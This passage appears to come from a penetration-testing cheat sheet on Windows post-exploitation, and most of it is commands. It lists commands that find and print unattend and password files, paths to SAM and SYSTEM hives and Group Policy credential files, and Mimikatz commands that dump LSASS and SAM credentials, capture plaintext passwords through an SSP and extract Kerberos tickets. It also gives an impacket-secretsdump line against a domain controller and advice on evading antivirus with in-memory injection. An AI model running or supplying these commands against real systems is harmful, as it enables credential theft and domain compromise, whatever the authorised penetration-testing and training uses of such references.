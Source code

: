 ```powershell

# specific files
dir /s sysprep.inf sysprep.xml unattended.xml unattend.xml unattended.txt 2>null
type C:\xampp\passwords.txt | type C:\xampp\mysql\bin\my.ini
```
#### 🗄 Imp Files
- [Sensitive Files Location in Windows](https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Windows-Sensitive-Files.txt)
- [Comprehensive One](https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt)
- [LFI Wordlist](https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Windows)
```powershell
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
C:\Windows\System32\drivers\etc\hosts
C:\Windows\Panther\Unattend.xml
C:\windows.old\Windows\System32\SAM
C:\windows.old\Windows\System32\SYSTEM
C:\xampp\mysql\bin\my.ini
C:\xampp\passwords.txt


C:\ProgramData\Microsoft\Group Policy\history 
C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history
Groups.xml
Services.xml
Scheduledtasks.xml
DataSources.xml
Printers.xml
Drives.xml
```
### Mimikatz
```powershell
privilege::debug    # to enable SeDebugPrivilege for getting access to other user process like lsass (SYSTEM user)   1
token::elevate   # to elevate privileges to SYSTEM user NEEDED       2
sekurlsa::logonpasswords   # extract password from all sources like LSASS for domain user hashes
lsadump::sam   # only dumps from SAM database for local user account hashes

# if credential guard enabled and wanna extract Domain users credentials
misc::memssp    # but now wait till a domain user logs in and our SSP used as an auth process to catch plaintext pass
# credentials stored in C:\Windows\System32\mimilsa.log

dir \\serviceserver\share  # to cache kerberos ticket
sekurlsa::tickets

# Impacket Secretsdump can be used to dump in the AD
impacket-secretsdump -just-dc-ntlm test.local/john:password123@10.10.10.1
```
We can find an excellent reference guide [here](https://adsecurity.org/?page_id=1821).
In case of Antivirus, execute Mimikatz directly from memory using an injector like [PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1), or use a built-in tool like Task Manager to dump the entire [LSASS process memory](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/), move the dumped data to a helper machine, and then load the data into [Mimikatz](http://www.fuzzysecurity.com/tutorials/18.html).
##### AV enabled machine
Mimikatz version to use in AV enabled machine [GitHub Repo](https://github.com/okankurtuluss/Invoke-Mimikatz-Bypass)
### 📂File Transfer (Download)
